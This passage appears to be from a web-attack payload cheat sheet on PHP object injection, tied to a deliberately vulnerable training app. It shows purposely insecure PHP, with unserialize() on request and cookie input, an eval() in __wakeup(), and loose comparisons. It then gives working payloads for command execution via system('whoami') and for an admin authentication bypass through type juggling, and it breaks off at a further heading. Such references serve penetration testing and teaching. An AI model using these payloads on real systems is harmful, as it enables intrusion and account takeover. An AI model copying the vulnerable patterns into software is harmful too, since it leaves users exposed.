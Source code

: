 Vulnerable code:

```
<?php 
    class PHPObjectInjection{
        public $inject;
        function __construct(){
        }
        function __wakeup(){
            if(isset($this->inject)){
                eval($this->inject);
            }
        }
    }
    if(isset($_REQUEST['r'])){  
        $var1=unserialize($_REQUEST['r']);
        if(is_array($var1)){
            echo "<br/>".$var1[0]." - ".$var1[1];
        }
    }
    else{
        echo ""; # nothing happens here
    }
?>
```

**Payload**:

```
# Basic serialized data
a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}

# Command execution
string(68) "O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('whoami');";}"
```

### Authentication bypass - Type juggling

Vulnerable code:
```
$data = unserialize($_COOKIE['auth']);

if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
    $admin = true;
} else {
    $admin = false;
}
```

**Payload:**
```
a:2:{s:8:"username";b:1;s:8:"password";b:1;}
```

### Authentication bypass - Object reference
